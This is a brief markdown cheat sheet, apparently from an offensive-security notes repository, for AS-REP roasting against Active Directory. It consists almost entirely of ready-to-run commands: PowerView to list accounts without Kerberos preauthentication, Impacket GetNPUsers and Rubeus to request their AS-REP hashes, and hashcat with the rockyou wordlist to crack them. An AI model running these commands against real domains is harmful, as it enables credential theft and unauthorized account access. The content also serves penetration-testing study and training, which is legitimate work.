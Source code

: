 # Identify vulnerable users
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

-----------------------

# Impacket
```bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/dave:password
impacket-GetNPUsers jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```

-----------------------

# Rubeus
```bash
.\Rubeus.exe asreproast /nowrap [/user:username]
```

-----------------------

# Cracking asreroast hashes
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
